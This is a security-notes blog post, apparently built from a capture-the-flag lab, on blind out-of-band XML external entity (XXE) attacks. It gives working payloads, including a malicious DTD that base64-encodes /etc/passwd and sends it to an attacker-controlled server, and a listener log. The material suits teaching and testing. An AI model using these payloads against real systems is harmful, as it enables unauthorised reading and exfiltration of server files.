 ```yaml
---
description: >-
  XXE Blind Out of Band
title:  XXE Blind Out of Band             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, XXE Blind Out of Band]                     # Change Templates to Writeup
tags: [exploitation, xxe blind out of band, xxe]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Detection
You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3"> ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted-image-20230206005533.png)

In this case we receive a request on our web server:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.62 - - [06/Feb/2023 06:50:04] "GET / HTTP/1.0" 200 -
```

### Input Validation Bypass
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```bash
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```bash
%myparameterentity;
```

### External Entities using Out of Band exploitation
This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```bash
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://10.10.14.3"> %xxe; ]>
```
![Description](/assets/img/Pasted-image-20230206005654.png)

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
![Description](/assets/img/Pasted-image-20230206005910.png)

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY filename SYSTEM 'http://10.10.14.3/%file;'>">
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file with a wrapper to encode the payload as base64.
- Defines an XML parameter entity called `param1`, containing a dynamic declaration of another XML parameter entity called `filename`. The `filename` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `param1` entity, which causes the dynamic declaration of the `filename` entity to be performed.
- Uses the `filename` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```bash
http://10.10.14.3/structure.xml
# Python web server:
python3 -m http.server 80
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/structure.xml"> %xxe; %param1;]>

<Heartbleed>
<Ping>&filename;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted-image-20230206013133.png)
Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:blind-xxe)

### References
Reference: [Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)

